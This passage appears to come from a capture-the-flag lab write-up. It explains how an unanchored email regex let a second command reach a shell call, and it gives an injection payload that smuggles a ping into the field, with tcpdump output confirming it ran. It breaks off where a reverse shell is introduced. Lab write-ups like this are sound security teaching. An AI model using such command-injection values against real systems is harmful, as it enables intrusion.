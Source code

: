 Both match on the start of the string, so both would return success on
the match. If the developer wanted this to match the entire string, they
could have added a `$` to the end of the regex, like this:

![](/img/image-20230823214427759.png)

Now only the first line matches.

If the code continued with only the matched object, that could be safe.
But then it uses the full email to make the call to `run`:



    domain = email.split("@", 1)[1]
    result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)



#### POC

To test this, I'll try the same POC I showed in the image above. This
will make the following:



    email = "0xdf@only4you.htb; ping -c 1 10.10.14.6"
    domain = "only4you.htb; ping -c 1 10.10.14.6"
    command = "dig txt only4you.htb; ping -c 1 10.10.14.6"



I'll get the POST request into Burp Repeater and send it. It hangs for a
few seconds (presumably doing the DNS request?), and then there's an
ICMP packet at my listening `tcpdump`:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    13:48:20.818373 IP 10.10.11.210 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    13:48:20.818389 IP 10.10.14.6 > 10.10.11.210: ICMP echo reply, id 2, seq 1, length 64



It worked!

#### Shell

To get a shell from this, I'll replace the `ping` command with a [bash
reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):
